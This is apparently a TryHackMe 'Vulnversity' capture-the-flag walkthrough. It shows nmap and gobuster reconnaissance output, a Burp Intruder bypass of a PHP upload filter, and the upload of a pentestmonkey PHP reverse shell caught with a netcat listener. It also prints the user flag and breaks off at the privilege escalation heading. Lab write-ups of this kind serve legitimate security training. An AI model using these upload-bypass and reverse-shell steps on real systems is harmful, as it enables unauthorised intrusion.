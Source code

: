 https://tryhackme.com/room/vulnversity

## Task 2 : Reconnaissance

#### Scan the box, how many ports are open ?

nmap -sV -Sc -p-

> Starting Nmap 7.60 ( https://nmap.org ) at 2022-05-31 20:47 BST
> 
> Nmap scan report for ip-10-10-170-87.eu-west-1.compute.internal (10.10.170.87)
> 
> Host is up (0.0012s latency).
> 
> Not shown: **994 closed ports**
> 
> **PORT    STATE SERVICE     VERSION**
> 
> **21**/tcp   open  ftp         vsftpd 3.0.3
> 
> **22**/tcp   open  ssh         OpenSSH 7.2p2 **Ubuntu** 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
> 
> | ssh-hostkey: 
> 
> |   2048 *edited* (RSA)
> 
> |   256 *edited* (ECDSA)
> 
> |_  256 *edited* (EdDSA)
> 
> **139**/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 
> **445**/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
> 
> **3128**/tcp open  http-proxy  **Squid http proxy 3.5.12**
> 
> |\_http-server-header: squid/3.5.12
> 
> |\_http-title: ERROR: The requested URL could not be retrieved
> 
> **3333**/tcp open  http        **Apache httpd** 2.4.18 ((Ubuntu))
> 
> |\_http-server-header: Apache/2.4.18 (Ubuntu)
> 
> |\_http-title: Vuln University
> 
> MAC Address: 02:0B:DD:24:3E:DF (Unknown)
> 
> Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
> 
> Host script results:
> 
> |\_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown\>, NetBIOS MAC: <unknown\> (unknown)
> 
> | smb-os-discovery: 
>  
> |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
>  
> |   Computer name: vulnuniversity
> 
> |   NetBIOS computer name: VULNUNIVERSITY\x00
> 
> |   Domain name: \x00
> 
> |   FQDN: vulnuniversity
> 
> |\_  System time: 2022-05-31T15:47:26-04:00
> 
> | smb-security-mode: 
> 
> |   account_used: guest
> 
> |   authentication_level: user
> 
> |   challenge_response: supported
> 
> |\_  message_signing: disabled (dangerous, but default)
> 
> | smb2-security-mode: 
>   2.02: 
> 
> |\_    Message signing enabled but not required
> 
> | smb2-time: 
> |   date: 2022-05-31 20:47:26
> |\_  start_date: 1600-12-31 23:58:45
> 
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> 
> Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds

6

#### What version of the squid proxy is running on the machine ?

See output of previous command above.

#### How many ports will nmap scan if the flag -p-400 was used ?

Nmap will scan port numbers from 1 to 400 (both included).

#### Using the nmap flag -n what will it not resolve ?

According to Nmap documentation, flag -n never does DNS resolution.

#### What is the most likely operating system this machine is running ?

Ubuntu

#### What port is the web server running on ?

3333

## Task 3 : Locating directories using GoBuster

#### What is the directory that has an upload form page ?

gobuster dir -u http://10.10.170.87:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

> ===============================================================
> 
> Gobuster v3.0.1
> 
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
> 
> ===============================================================
> 
> [+] Url:            http://10.10.170.87:3333
> 
> [+] Threads:        10
> 
> [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
> 
> [+] Status codes:   200,204,301,302,307,401,403
> 
> [+] User Agent:     gobuster/3.0.1
> 
> [+] Timeout:        10s
> 
> ===============================================================
> 
> 2022/05/31 21:02:51 Starting gobuster
> 
> ===============================================================
> 
> /images (Status: 301)
> 
> /css (Status: 301)
> 
> /js (Status: 301)
> 
> /fonts (Status: 301)
> 
> /internal (Status: 301)
> 
> /server-status (Status: 403)

Visit all directories found ; http://10.10.170.87:3333/internal/ is the one with an upload form.

## Task 4 : Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked?

.php

Create a text file 'phpext.txt' with common PHP extensions :
.php
.php3
.php4
.php5
.phtml

Start BurpSuite and configure the proxy to intercept the traffic from http://10.10.170.87:3333/internal/

Upload a .php file, capture it in Burp proxy and forward it to the intruder :
![alt-title](/images/Vulniversity1.png)

Click on 'Payloads' tab and select the 'Sniper' attack :
![alt-title](/images/Vulniversity2.png)

Then, click on the 'Positions' tab and modify the captured HTTP request like that :
![alt-title](/images/Vulniversity3.png)

and launch the attack.
Check the results, by clicking on the 'Response' tab :
![alt-title](/images/Vulniversity4.png)
![alt-title](/images/Vulniversity5.png)

Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and replace the line `$ip = '127.0.0.1';  // CHANGE THIS` with the IP of the attack machine.

Save the modified reverse PHP shell to 'php-reverse-shell.phtml' so that it is accepted by the upload form.

Start listening to incoming connections using netcat : nc -lvnp 1234

Upload 'php-reverse-shell.phtml' and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml
This will execute the payload and will give a reverse shell :
![alt-title](/images/Vulniversity6.png)
  
#### What is the name of the user who manages the webserver ?
  
> whoami
> www-data
> 
> pwd
> /
> dir /home
> bill
> 
> dir /home/bill
> user.txt
> 
> cat /home/bill/user.txt
> 8bd7992fbe8a6ad22a63361004cfcedb


## Task 5 : Privilege escalation

